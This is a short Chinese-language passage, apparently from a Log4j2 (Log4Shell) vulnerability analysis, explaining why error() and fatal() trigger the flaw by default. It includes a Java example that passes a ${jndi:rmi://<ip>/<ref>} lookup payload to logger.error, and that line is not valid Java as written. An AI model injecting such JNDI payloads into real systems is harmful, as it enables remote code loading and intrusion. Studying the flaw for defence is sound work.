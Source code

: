 在默认情况下，error()和fatal()方法可以触发漏洞，其余方法需要令行配置，并且可以通过isInfoEnabled()和其他函数检查状态:

![img](../../../../images/post/0hO8mv0.png)

原因是在logIfEnabled方法中，对当前日志等级进行了一次判断:

![image-20220109223725056](../../../../images/post/image-20220109223725056.png)

该方法返回一个布尔值，只有在当前事件的日志等级大于或等于设置的日志等级时，才会符合条件，当返回值为 **True** 时，将继续 **logMessage()** 方法。

这里拿error举例说明:

```java
Logger logger = LogManager.getLogger();
logger.error("error message: {}",${jndi:rmi://<ip>/<ref>});
```

